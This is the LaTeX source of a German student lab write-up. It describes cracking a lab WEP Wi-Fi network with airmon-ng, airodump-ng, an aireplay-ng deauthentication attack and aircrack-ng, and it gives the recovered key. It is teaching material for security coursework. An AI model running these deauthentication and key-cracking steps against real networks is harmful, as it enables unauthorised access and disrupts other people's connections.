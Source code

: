 \documentclass[12pt,a4paper]{article}
\newenvironment{exercise}
	{\begin{enumerate}[label=\bfseries\alph*).]\bfseries}
{\end{enumerate}}
\newenvironment{answer}{\par\normalfont}{}
\begin{document}
    \section{Aircrack \& Co}
    	\begin{exercise}
    		\item Brechen Sie die im IT-Labor eingerichtete WLAN-Verbindung mit der für Sie vorgesehenen SSID (im Praktikum erfragen) mittels Aircrack unter zu Hilfenahme der Datei Password.txt.
    		Beschreiben Sie kurz die einzelnen Schritte ihrer Vorgehensweise.
    			\begin{answer}
    				Wir haben folgende Schritte durchgeführt und die AP 'ITS-WEP' geknackt. Das Passwort ist 
    				\begin{lstlisting}[language=bash]
ED:98:ED:38:DF:BB:C3:BB:B0:D2:8C:62:B3
    				\end{lstlisting}
    				\begin{enumerate}[label=\alph*.]
    					\item Mit Airmon-ng die Netzwerkkarte zu promiscuous versetzen 
    					\begin{lstlisting}
airmon-ng start wlan0
    					\end{lstlisting}
    					\item WLAN mit WEP identifizieren und Netzwerkverkehr mitschneiden. 
    					\begin{lstlisting}
airodump-ng wlan0mon --ivs -c {CH} --bssid {target_ssid} -w {file/to/save}
						\end{lstlisting}
						\item Die Menge an Netzwerkverkehr(bzw. ARP-Verkehr) kann durch 2 Arten erhöht werden. Entweder durch Abmelden des zulässige Clients oder Versuch einer falschesten Authentifizierung am AP. Wir haben leider keine zulässige Geräte vorhanden, wir müssen auf 2. Weise gehen, also eine Aireplay-attacke durchzufuhren.
						\begin{lstlisting}
aireplay-ng wlan0 --deauth 0 -a {target_mac}
						\end{lstlisting}
						Da normalerweise soll viele Gerate nach einer abmedlung wieder dem AP zu verbinden,
						und damit können wir genug ARP Requests und ACKs sammeln.
						\item Wenn c.a. 1500 Paket gesammelt wurden, können wir schon mit Aircrack-ng das Passwort zu knacken.
						\begin{lstlisting}
aircrack-ng {.ivs file} -b {target_ssid}
						\end{lstlisting}
    				\end{enumerate}
    			\end{answer}
    		\item (Optional) Versuchen Sie, da Sie nun den PSK kennen, die Verkehre mittels eines geeigneten Tools (z.B.Wireshark) aufzuzeichnen und zu entschlüsseln.
    		
    		\item (Optional) Machen Sie sich mit WPS-Pin-Verfahren vertraut. Versuchen Sie die WLAN-Verbindung
    		mittels WPS anzugreifen.
    		\begin{answer}
    			Nicht gemacht.
    		\end{answer}
    	\end{exercise}
    \newpage
\end{document}
